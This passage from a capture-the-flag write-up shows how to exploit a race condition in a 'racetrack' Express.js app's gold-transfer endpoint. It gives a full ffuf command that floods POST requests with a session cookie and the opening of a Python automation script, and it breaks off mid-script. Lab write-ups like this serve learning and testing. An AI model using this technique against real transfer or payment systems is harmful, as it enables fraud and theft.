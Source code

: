 ```node
X-Powered-By: Express
```

Seeing the header `X-Powered-By: Express` in a response means the web server is running on **Express.js**, a popular web application framework for **Node.js**.

Since the application's named `racetrack`, we can search for something related:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612152600.png)

As seen, there's only race conditions for this, if we investigate further, we can find the package too:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612152928.png)




# EXPLOITATION
---

If we go back to the proxy, we can check the format of the request:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612153022.png)

As seen, we need the cookie of our user, the amount and the username of the account who's receiving the gold, we can exploit the race condition using a fuzzer such as `wfuzz` or `ffuf` in this case, get the `cookie`, we also need to create a wordlist in which `1` is repeated a bunch of times, let's do it, you can use the following bash command:

```bash
yes 1 | head -n 1000 > race_wordlist.txt
```

Now, here comes our ffuf command:

```bash
ffuf -c -u http://racetrack.thm/api/givegold -X POST -w race_wordlist.txt -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3AEDovzkVYcSpKHzvGEfSU6iAYygzwMrbs.hc2XrqJb%2FSJktcRYPA5faZA0DbBhGaSST1%2BqE%2Fc7PNI" -d "user=test2&amount=FUZZ"
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612153415.png)

We will see all the requests being made, what we need to do now is check `test2` account:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612153459.png)

As seen, we receive more gold that we have on our `test` account, the race condition exists and is exploitable, we can perform the same ffuf increasing the gold amount we are sending to a further quantity or, simply automate the deed with python as we usually do:

```python
#!/usr/bin/env python3

import grequests
import requests
from bs4 import BeautifulSoup
from colorama import init, Fore, Style

# Initialize colorama for cross-platform colored text
init(autoreset=True)

# ======== CONFIGURATION ========
TARGET_HOST = "racetrack.thm"
USERS = {
    "acc1": "acc1",
```